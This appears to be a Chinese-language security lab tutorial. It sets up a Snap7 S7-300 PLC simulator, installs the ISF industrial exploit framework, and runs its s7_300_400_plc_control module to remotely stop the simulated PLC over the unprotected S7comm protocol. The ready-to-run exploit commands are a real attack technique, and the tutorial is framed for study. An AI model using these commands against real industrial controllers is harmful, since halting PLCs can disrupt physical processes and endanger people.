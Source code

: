 # S7-300 启停实验

<p align="center">
    <img src="../../../../assets/img/banner/s7comm.jpg">
</p>

---

## 免责声明

`本文档仅供学习和研究使用,请勿使用文中的技术源码用于非法用途,任何人造成的任何负面影响,与本人无关.`

---

**前言**

西门子（SIEMENS）公司的 PLC 产品包括 LOGO、S7-200、S7-1200、S7-300、S7-400、S7-1500 等。

西门子 PLC 在我国的应用比其他系列多。

西门子 S7 系列 PLC 体积小、速度快、标准化，具有网络通信能力，功能更强，可靠性高。S7 系列 PLC 产品可分为微型 PLC（如 S7-200），小规模性能要求的 PLC（如 S7-300）和中、高性能要求的PLC（如S7-400）等。

西门子 PLC 使用私有协议进行通信，它是利用 TPKT 和 ISO8073 的二进制协议。西门子的 PLC 通信端口均为 102 端口,。西门子 PLC 协议有3个版本，S7Comm 协议，早期 S7CommPlus 协议和最新的 S7CommPlus 协议。

S7-200、S7-300、S7-400 系列的 PLC 采用早期的西门子私有协议 S7comm 进行通信。该协议不像 S7CommPlus 的加密协议（S7-1500 等），不涉及任何反重复攻击机制，可以被攻击者轻易利用。S7comm-plus 协议引入了会话 ID 来防止重放攻击。

**实验环境**

`环境仅供参考`

- Microsoft Windows 10 企业版 LTSC - 10.0.17763
- CentOS Linux release 7.7.1908
- VMware® Workstation 15 Pro - 15.0.0 build-10134415

---

# 环境搭建

本次实验用模拟器代替现场设备,先访问软件官网 http://snap7.sourceforge.net/ ,点击 Download 会跳转到 https://sourceforge.net/projects/snap7/files/ ,下载 snap7-full-1.4.2.7z

![](../../../../assets/img/安全/实验/ICS/S7-300启停实验/1.png)

![](../../../../assets/img/安全/实验/ICS/S7-300启停实验/2.png)

首先S7模拟器客户端连接主机,解压,打开 \rich-demos\x86_64-win64\bin 下 serverdemo.exe

输入本机 IP 点击 start 连接

![](../../../../assets/img/安全/实验/ICS/S7-300启停实验/3.png)

然后使用 S7 模拟器客户端,打开 clientdemo.exe 进行连接

输入本机 IP 点击 connect 连接

![](../../../../assets/img/安全/实验/ICS/S7-300启停实验/4.png)

此时服务端出现请求信息,表示连接成功

![](../../../../assets/img/安全/实验/ICS/S7-300启停实验/5.png)

---

# 漏洞利用

接下来采用开源的工控漏洞利用框架 ISF

工具地址 : https://github.com/dark-lbp/isf

使用 Centos 下载并使用
```bash
yum install -y python
wget https://bootstrap.pypa.io/get-pip.py
python get-pip.py

mkdir -p ~/.pip/
sudo tee ~/.pip/pip.conf <<-'EOF'
[global]
index-url = https://pypi.tuna.tsinghua.edu.cn/simple
[install]
trusted-host = https://pypi.tuna.tsinghua.edu.cn
EOF

git clone https://github.com/dark-lbp/isf.git
cd isf/
pip install -t /usr/lib/python2.7/site-packages -r requirements.txt
python2.7 isf.py
```

kali如下
```bash
python2 get-pip.py

mkdir -p ~/.pip/
sudo tee ~/.pip/pip.conf <<-'EOF'
[global]
index-url = https://pypi.tuna.tsinghua.edu.cn/simple
[install]
trusted-host = https://pypi.tuna.tsinghua.edu.cn
EOF

git clone https://github.com/dark-lbp/isf.git
cd isf/
python2 -m pip install -r requirements.txt
python2.7 isf.py
```

实际利用
```
use exploits/plcs/siemens/s7_300_400_plc_control
set target 192.168.141.128
run
```

![](../../../../assets/img/安全/实验/ICS/S7-300启停实验/6.png)

这里显示 `stop plc` ,同时查看模拟器中的输出,可以发现已经停止

![](../../../../assets/img/安全/实验/ICS/S7-300启停实验/7.png)

---

**Source & Reference**
- [工控安全 | 西门子S7-300攻击分析](https://www.freebuf.com/articles/ics-articles/228770.html)
- [工控安全：S7-1200 PLC远程启停攻击实验](https://www.key1.top/index.php/archives/469/)
